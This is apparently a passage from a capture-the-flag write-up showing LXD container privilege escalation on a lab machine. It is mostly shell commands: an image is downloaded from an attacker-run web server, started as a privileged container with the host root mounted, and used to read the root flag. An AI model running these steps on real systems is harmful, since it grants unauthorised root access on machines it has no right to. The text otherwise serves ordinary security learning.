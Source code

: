 Downloaded the reference repository and ran the binary
```
git clone  https://github.com/saghul/lxd-alpine-builder.git

cd lxd-alpine-builder

./build-alpine
```


Turned my machine into a webserver using

```

python -m SimpleHTTPServer

```

Downloaded the alpine linux container into the target machine using

```
john@exploitable:/tmp$ wget http://10.17.24.189:8000/alpine-v3.18-x86_64-20230625_1901.tar.gz
```

We import the container into lxc using

```
john@exploitable:/tmp$ lxc image import ./alpine-v3.18-x86_64-20230625_1901.tar.gz --alias myimage
```

Then I'll give the container privileges

Add the root directory as a mount point, and start(ignite) the container


```
lxc init myimage ignite -c security.privileged=true
```

```
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
```

```
lxc start ignite
```

```
lxc exec ignite /bin/sh
```

Now that we have the container running and mounted the root directory path we go into that path

```
cd /mnt/root/root
```


And we get the root flag

```
/mnt/root/root # cat root.txt
2e337b8c9f3aff0c2b3e8d4e6a7c88fc
```

Thank you for reading! This is my first writeup, if this helped you don't forget to follow.

